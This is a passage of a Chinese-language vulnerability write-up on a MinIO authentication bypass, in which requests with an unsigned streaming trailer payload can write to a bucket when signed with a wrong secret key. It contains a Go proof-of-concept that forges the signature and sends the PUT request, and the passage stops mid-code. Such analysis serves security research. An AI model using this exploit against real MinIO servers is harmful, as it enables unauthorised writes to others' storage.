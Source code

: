 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/36ssDibLXxGRd8xtsicVeBXTPPIvYgic4L2mCgiaNCzibYu2a5YjibSc6CkPHJWKovSic1ia7jhficbwuBUb67C83OmBhIw/640?wx_fmt=png&from=appmsg "null")  
  
  
判断密钥是否对桶有写入权限  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/36ssDibLXxGRd8xtsicVeBXTPPIvYgic4L2BZ3cbrHFicp9XnibVHGxwcOj9mznYvWGG74OicAu98KEkpibSF8nw1AmfA/640?wx_fmt=png&from=appmsg "null")  
  
  
如检测是否为onwer、服务账号、临时账号是否有权限等等  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/36ssDibLXxGRd8xtsicVeBXTPPIvYgic4L2icVJRoYpVMyCmlZzIyEo2MpUdmEealQIFkiaCoXrEevibBq6DeA3uRsKQ/640?wx_fmt=png&from=appmsg "null")  
  
  
我们需要试验一下，使用ak进行进行签名（使用错误密钥），是否可以写桶  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/36ssDibLXxGRd8xtsicVeBXTPPIvYgic4L2TeeDcmCxbcSqaV471sFssKMEyb9kdcEq7VR6ibP6ccymUicmQDJLFvaA/640?wx_fmt=png&from=appmsg "null")  
  
## 2.5、达到sink点  
### 2.5.1、如何伪造签名？  
  
在minio测试案例中有对原生http请求签名的函数，我们直接使用它的签名函数即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/36ssDibLXxGRd8xtsicVeBXTPPIvYgic4L2avA5t7e9Id3W1DhmYKd3G2KPxIQFS7x9SalLmvwf7Rb7Gda85MKBaQ/640?wx_fmt=png&from=appmsg "null")  
  
  
我们需要完成下面步骤：  
  
1、我们新建一个test桶的bucket  
  
2、新建一个对bucket有权限的AK（不需要密钥）  
  
3、即可完成对mino的桶进行写入  
```
func errSign() {
    // HTTP request to create the bucket.
    endPoint := "http://127.0.0.1:9000"
    accessKey := "xiL0MShPspD3axSWx8ES"
    secretKey := "SKxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    bucketName := "test"
    req, err := http.NewRequest(http.MethodPut, getPutObjectURL(endPoint, bucketName, "2.txt"), nil)
    req.Header.Set("X-Amz-Content-Sha256", "STREAMING-UNSIGNED-PAYLOAD-TRAILER")
    req.Header.Set("Content-Encoding", "aws-chunked")
    err = signRequestV4(req, accessKey, secretKey)
    if err != nil {
       fmt.Println(err)
    }


    fmt.Println(req.URL)
    // execute the request.
    proxyURL, err := url.Parse("http://127.0.0.1:4321")
    if err != nil {
       fmt.Println("Invalid proxy URL:", err)
       return
    }
    customTransport := &http.Transport{
       Proxy: http.ProxyURL(proxyURL),
    }
    s := &http.Client{
       Transport: customTransport,
    }
    // execute the request.
    response, err := s.Do(req)
    byts, err := io.ReadAll(req.Body)
    fmt.Println(response.Status, byts, err)
    if err != nil {
```